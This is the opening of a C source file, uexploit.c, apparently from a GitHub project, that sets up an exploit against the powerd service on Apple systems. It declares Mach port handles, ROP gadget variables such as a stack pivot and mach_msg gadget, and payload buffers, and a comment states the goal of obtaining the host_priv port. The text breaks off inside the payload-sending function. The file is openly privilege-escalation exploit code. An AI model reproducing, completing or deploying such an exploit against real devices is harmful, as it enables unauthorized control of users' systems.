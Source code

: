 ```c
//
//
//  uexploit.c
//  powend
//
//  Created by simo on 30/08/2018.
//  Copyright © 2018 simo ghannam. All rights reserved.
//
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <mach/mach.h>
#include <mach-o/dyld_images.h>
#include <sys/sysctl.h>
#include <unistd.h>
#include <objc/objc.h>
#include <sys/mman.h>
#include <CoreFoundation/CoreFoundation.h>
#include <pthread.h>
#include "code.h"

#define READ_MEMORY         fill_memory_with_user_data
#define DEALLOCATE_MEMORY   deallocate_memory_user
//#define MEMDUMP

#define CHECK_MACH_ERR(kr,name)   if (kr != KERN_SUCCESS) {\
    printf("%s : %s (0x%x)\n",name,mach_error_string(kr),kr); \
    exit(-1); }

#define MAGIC_TAG 0xbadbadcc

mach_port_t service_port = MACH_PORT_NULL;
uint8_t *p = NULL;
uint32_t psizeP = 0x30000;
int Iter = 1000;
//uint64_t condidates[0x100] = {0};
uint64_t *condidates = NULL;
uint32_t collected = 0;
uint8_t *main_payload = NULL;
uint32_t main_payload_size = 0;
uint32_t payload_size = 0;
uint64_t payload_address = 0;
int target_psid = 0;
uint8_t *prestore = NULL;
uint32_t prestore_size = 0;
uint64_t control_x0,br_x3,br_x6,control_x0_and_blr;
uint64_t stack_pivot,mach_msg_gadget,stack_ptr,restore_registers,ret_sp;
mach_port_t fake_service_port = 0;

pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

pthread_mutex_t powerd_task_lock;
pthread_cond_t  powerd_task_cond;
// our final goal is to get host_priv port
mach_port_t host_priv = MACH_PORT_NULL;
mach_port_t powerd_task_port =MACH_PORT_NULL;
pthread_t svc;

int strt_exp = 0;

void send_pegged_payload(mach_port_t service_port, const char *buf,uint32_t size) {
    kern_return_t kr;
    struct {
```